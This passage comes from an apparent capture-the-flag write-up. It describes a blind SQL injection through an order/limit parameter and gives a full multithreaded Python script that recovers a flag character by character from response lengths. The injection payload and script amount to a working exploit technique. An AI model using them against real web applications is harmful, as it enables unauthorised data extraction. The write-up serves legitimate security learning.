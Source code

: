 How this works is when I find the next character in the flag, the upper `LIMIT` will by `1001` and will dump all of the metals in the database. Otherwise, when I have not found the next character in the flag then the upper limit will only be `1` since `1000*0=0` (in case you skipped maths in highschool). This causes a very significant difference in the content length in the response that I can easily check to see if I found the correct next flag!

Putting it all together, below is the dirty solution code that I wrote.

```python
import requests, threading, queue, string
import urllib.parse as url_parse

QUERY = "1 LIMIT 0, 1|1000*(SELECT instr(flag, '{chars}') FROM flag)"
THREADS = 20
TARGET = "<URL TO YOUR CHALLENGE INSTANCE>"

PREFIX = "flag{"
CHARS = "_" + string.ascii_lowercase + string.digits + string.ascii_uppercase + "}"

q = queue.Queue()
result_q = queue.Queue()

def worker():
    while True:
        chars = q.get()[0]
        if chars == None:
            break
        query = QUERY.format(
            chars=chars
        )
        r = requests.post(TARGET,data={"search":"","order":query})

        if len(r.content) > 3480:
            result_q.put((chars,))
    
        q.task_done()


if __name__ == "__main__":
    for c in CHARS:
        q.put((PREFIX+c,))

    threads = [
        threading.Thread(target=worker, daemon=True)
            for _t in range(THREADS)
    ]

    t: threading.Thread
    [t.start() for t in threads]

    while True:
        found_chars: str = result_q.get()[0]
        print("FOUND CHARS:", found_chars)

        for c in CHARS:
            q.put((found_chars+c,))

        result_q.task_done()
```
